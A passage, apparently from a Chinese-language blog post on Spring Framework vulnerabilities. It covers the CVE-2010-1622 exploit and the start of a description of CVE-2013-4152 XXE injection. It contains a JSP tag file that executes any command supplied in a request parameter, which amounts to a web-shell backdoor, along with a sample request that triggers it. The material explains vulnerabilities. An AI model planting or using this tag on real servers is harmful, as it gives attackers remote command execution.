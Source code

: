 在文件中新加入一个tag，叫做input：

```


1.  `<tag-file>`
2.   `<name>input</name>`
3.   `<path>/WEB-INF/tags/InputTag.tag</path>`
4.   `</tag-file>`


```

InputTag.tag的内容：

```


1.  `<%@ tag dynamic-attributes="dynattrs" %>`
2.  `<%`
3.  `if  (request.getParameter("kxlzxcmd")!=null)` 
4.   `exec(request.getParameter("kxlzxcmd"));` 
5.  `%>`
6.  `<form:inputkxlzx  path="${dynattrs.path}"></form:inputkxlzx>`


```

访问的时候需要在参数中携带kxlzxcmd

```


1.  `/test.htm?name=kxlzx&kxlzxcmd=calc   //包含input的页面`


```

[http://blog.o0o.nu/2010/06/cve-2010-1622.html](http://blog.o0o.nu/2010/06/cve-2010-1622.html)

[https://www.inbreak.net/archives/377](https://www.inbreak.net/archives/377)

### [](#CVE-2013-4152-Spring-Framework中的XML外部实体（XXE）注入 "CVE-2013-4152 Spring Framework中的XML外部实体（XXE）注入")CVE-2013-4152 Spring Framework中的XML外部实体（XXE）注入

影响版本：3.0.0至3.2.3、4.0.0.M1

受影响版本容易受到XML外部实体（XXE）注入的攻击。该`SourceHttpMessageConverter`处理器不会禁用外部实体解析，这使远程攻击者可以读取任意文件。

当传输xml结构体时，如

```


1.  `<?xml version="1.0" encoding="ISO-8859-1"?>`
2.   `<username>John</username>`
3.  `</xml>`


```
